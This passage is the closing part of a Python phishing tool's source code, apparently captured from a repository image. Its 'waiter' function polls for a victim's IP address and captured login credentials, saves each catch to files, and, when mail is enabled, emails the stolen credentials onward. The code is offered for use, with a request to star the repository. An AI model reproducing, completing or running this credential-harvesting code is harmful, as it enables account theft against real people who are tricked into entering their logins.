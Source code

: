  # Last function capturing credentials 
 def waiter(): 
     global is_mail_ok 
     delete(ip_file, cred_file) 
     sprint(f"\n{info}{blue}Waiting for login info....{cyan}Press {red}Ctrl+C{cyan} to exit") 
     try: 
         while True: 
             if isfile(ip_file): 
                 print(f"\n\n{success}{bgreen}Victim IP found!\n\007") 
                 show_file_data(ip_file) 
                 ipdata = cat(ip_file) 
                 append(ipdata, main_ip) 
                 # Just add the ip 
                 append(ipdata.split("\n")[0], saved_file) 
                 print(f"\n{info2}Saved in {main_ip}") 
                 print(f"\n{info}{blue}Waiting for next.....{cyan}Press {red}Ctrl+C{cyan} to exit") 
                 remove(ip_file) 
             if isfile(cred_file): 
                 print(f"\n\n{success}{bgreen}Victim login info found!\n\007") 
                 show_file_data(cred_file) 
                 userdata = cat(cred_file) 
                 if is_mail_ok: 
                     send_mail(userdata) 
                 append(userdata, main_cred) 
                 append(userdata, saved_file) 
                 print(f"\n{info2}Saved in {main_cred}") 
                 print(f"\n{info}{blue}Waiting for next.....{cyan}Press {red}Ctrl+C{cyan} to exit") 
                 remove(cred_file) 
             sleep(0.75) 
     except KeyboardInterrupt: 
         pexit() 
  
 def main(): 
     try: 
         main_menu() 
     except KeyboardInterrupt: 
         pexit() 
     except Exception as e: 
         exception_handler(e) 
  
 if __name__ == '__main__': 
     main() 
  
 # If this code helped you, consider staring repository. Your stars encourage me a lot!